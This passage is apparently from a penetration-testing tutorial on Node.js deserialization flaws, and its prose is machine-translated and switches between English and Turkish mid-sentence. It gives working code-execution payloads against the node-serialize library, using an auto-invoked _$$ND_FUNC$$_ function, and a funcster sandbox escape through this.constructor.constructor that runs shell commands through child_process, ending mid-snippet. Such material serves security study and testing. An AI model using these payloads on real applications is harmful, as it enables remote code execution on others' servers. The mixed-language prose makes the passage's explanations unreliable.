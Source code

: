 Inside the file `node-serialize/lib/serialize.js` you can find the same flag and how the code is using it.

![](<../../images/image (351).png>)

![](<../../images/image (446).png>)

As you may see in the last chunk of code, **if the flag is found** `eval` is used to deserialize the `function`, so basically **user input is being used inside the `eval` function**.

However, **just serialising** a `function` **won't execute it** as it would be necessary that some part of the code is **calling `y.rce`** in our example and that's highly **olası değil**.\
Anyway, you could just **modify the serialised object** **adding some parenthesis** in order to auto execute the serialized `function` when the object is deserialized.\
In the next chunk of code **notice the last parenthesis** and how the `unserialize` `function` will automatically execute the code:
```javascript
var serialize = require("node-serialize")
var test = {
rce: "_$$ND_FUNC$$_function(){ require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) }); }()",
}
serialize.unserialize(test)
```
Daha önce belirtildiği gibi, bu kütüphane `_$$ND_FUNC$$_` sonrasındaki kodu alır ve `eval` kullanarak **çalıştırır**. Bu yüzden, kodu **otomatik çalıştırmak** için fonksiyon oluşturma kısmını ve son parantezi silebilir ve aşağıdaki örnekte olduğu gibi **sadece bir JS oneliner çalıştırabilirsiniz**:
```javascript
var serialize = require("node-serialize")
var test =
"{\"rce\":\"_$$ND_FUNC$$_require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) })\"}"
serialize.unserialize(test)
```
You can [**find here**](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/) **daha fazla bilgi** about how to exploit this vulnerability.

### [funcster](https://www.npmjs.com/package/funcster)

**funcster**'ın kayda değer bir yönü, **standard built-in objects**'un erişilemez olmasıdır; bunlar erişilebilir kapsamın dışında kalırlar. Bu kısıtlama, yerleşik nesnelerin metodlarını çağırmaya çalışan kodların çalışmasını engeller ve `console.log()` veya `require(something)` gibi komutlar kullanıldığında "ReferenceError: console is not defined" gibi istisnalara yol açar.

Bu sınırlamaya rağmen, tüm standard built-in objects dahil olmak üzere global context'e tam erişimin geri getirilmesi belirli bir yaklaşımla mümkündür. Global context'e doğrudan erişimi kullanarak bu kısıtlamayı aşabilirsiniz. Örneğin, erişim aşağıdaki snippet ile yeniden sağlanabilir:
```javascript
funcster = require("funcster")
//Serialization
var test = funcster.serialize(function () {
return "Hello world!"
})
console.log(test) // { __js_function: 'function(){return"Hello world!"}' }

//Deserialization with auto-execution
var desertest1 = { __js_function: 'function(){return "Hello world!"}()' }
funcster.deepDeserialize(desertest1)
var desertest2 = {
__js_function: 'this.constructor.constructor("console.log(1111)")()',
}
funcster.deepDeserialize(desertest2)
var desertest3 = {
__js_function:
"this.constructor.constructor(\"require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) });\")()",
```